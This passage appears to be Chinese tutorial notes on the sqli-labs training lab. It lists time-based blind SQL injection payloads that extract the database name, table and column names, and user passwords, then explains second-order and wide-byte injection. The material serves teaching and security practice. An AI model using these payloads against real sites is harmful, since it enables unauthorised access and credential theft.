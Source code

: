 ```sql
and sleep(3) --+

and if (length(database())=8,sleep(3),1) --+

 and if(left(database(),1)='s',sleep(5),1)--+

and if(left(database(),8)='security',sleep(5),1)--+

and if( left((select table_name from information_schema.tables where table_schema=database() limit 0,1),1)='u' ,sleep(5),1)--+

and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+

and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+

and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+
```

### 1.6 二阶注入

Less-24

注入两次：

第一次：向数据库中插入注入语句，为下一次注入做准备

第二次：利用第一次的语句

示例：

1.注册一个admin’#的用户

2.登录并修改密码

```php
UPDATE users SET PASSWORD='$pass' where username='$username' and password='curr_pass'
```

二次SQL注入（Second-Order SQL Injection）是一种特殊类型的SQL注入攻击。与一般的SQL注入攻击类似，攻击者会通过输入恶意的SQL语句来执行非法操作。而二次SQL注入则是指攻击者在应用程序中注入恶意的数据，然后等待应用程序将这些数据存储在数据库中。当应用程序再次从数据库中读取这些数据时，恶意数据就会被读取出来，并执行恶意操作。

例如，一个web应用程序可能会将用户输入的内容存储在数据库中，然后在后续的页面中将这些内容显示出来。如果攻击者在用户输入中注入了恶意SQL语句，那么这些语句会被存储在数据库中。当应用程序从数据库中读取这些内容并在后续的逻辑中使用时，恶意SQL语句就有可能被执行，从而导致攻击成功。

与一般的SQL注入攻击相比，二次SQL注入攻击更加难以防范和检测，因为攻击者并不直接向应用程序发送恶意SQL语句，而是将其存储在数据库中等待应用程序读取。因此，防止二次SQL注入攻击需要采取一些特殊的防御措施，例如对输入数据进行更加严格的过滤和转义处理，使用预编译等。

[Next ](https://websec.readthedocs.io/zh/latest/vuln/sql/cheatsheet/index.html)[ Previous](https://websec.readthedocs.io/zh/latest/vuln/sql/bypass.html)

### 1.7宽字节注入

Less-32

原理：利用mysql的GBK编码特性，在第一个字节的编码值大于128时，将两个字节识别为一个汉字。
